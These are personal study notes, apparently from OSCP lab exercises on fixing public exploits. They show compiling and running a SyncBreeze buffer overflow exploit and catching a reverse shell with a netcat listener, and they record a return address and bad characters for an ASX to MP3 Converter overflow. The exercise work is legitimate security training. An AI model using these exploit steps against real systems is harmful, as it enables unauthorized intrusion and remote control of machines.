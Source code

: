 15.1.7.1

# 15.1.7.1
## 15.1.7.1.1. Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.

Change the buffer size in 42341.c
![a799891dbe3be0a8219452a8e0febb82.png](:/0a9ae5fa8a3048fbb23996f8455e8e0c)

Compile
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Open a netcat listener on port 443
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (don't set any breakpoints)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ wine syncbreeze_exploit.exe 

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Notice we have a shell on the netcat listener
![8b60af1051195f7413f3f1527564a588.png](:/c7324500933a4296b51e97247b453b52)


## 15.1.7.1.2. Install the ASX to MP3 Converter application located under the **C:\Tools\fixing_exploits** directory; download the exploit for ASX to MP3 Converter from EDB 391 and edit it in order to get a shell on your dedicated Windows machine.

### Find other exploits that may target Windows 10 Pro
Packet Storm link https://packetstormsecurity.com/files/154788/ASX-To-MP3-Converter-3.1.3.7-Stack-Overflow.html has interesting info. A **return address 0x1002D038** and **bad chars \x00\x09\x0a**
![a7488b632a0c4b0cef85b2be6cbe7289.png](:/bd5ce1372bde4d56a50b539262874b4a)






id: ea07c230b0be4a58aca486f8529e7670
parent_id: 9a04a7bd83e14f0c94a95d18efa2053f
created_time: 2020-09-26T18:15:30.545Z
updated_time: 2020-09-28T02:43:29.877Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-26T18:15:30.545Z
user_updated_time: 2020-09-28T02:43:29.877Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1